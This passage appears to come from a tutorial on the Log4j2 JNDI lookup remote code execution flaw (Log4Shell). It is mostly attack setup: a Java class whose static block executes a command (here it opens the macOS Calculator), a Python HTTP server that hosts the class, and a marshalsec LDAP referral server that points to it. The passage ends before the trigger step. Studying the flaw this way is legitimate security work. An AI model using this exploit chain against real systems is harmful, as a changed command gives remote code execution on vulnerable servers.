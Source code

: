 First prepare the following problematic code, compile it into a class and upload it to root directory of the http server (client). 

```
public class Exploit {

    static {
        try {
            String [] cmd = {"/System/Applications/Calculator.app/Contents/MacOS/Calculator"};
            Runtime.getRuntime().exec(cmd).waitFor(); //open mac calc
        }catch (Exception e){
            e.printStackTrace();
        }
    }

}
```

Then start the HTTP server, like above (client). 

```
# For simplicity, I start a web server directly with python
➜  ~ mkdir -p /tmp/test/
➜  ~ cd  /tmp/test/

# Choose one of the following to start the http server, my machine is a python3 environment
➜  test python -m SimpleHTTPServer 8888 #python2
➜  test python -m http.server  8888 #python3 
```

<center>
<img src="assets/images/talk-about-the-lookup-rce-vulnerability-of-log4j2/figure-2.png" alt="Talk about the Lookup RCE vulnerability of Log4j2" title="Github of Anigkus">
</center>

Then start the LDAP server (client).

```
# This directory doesn't matter, it can not be in the same directory as the problematic code
➜  ~ cd  /tmp/test/

# Compile the source code yourself
➜  test git clone https://github.com/mbechler/marshalsec

# Use the compiled
➜  test git clone git@github.com:bkfish/Apache-Log4j-Learning.git
➜  test cd Apache-Log4j-Learning/tools
➜  test java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

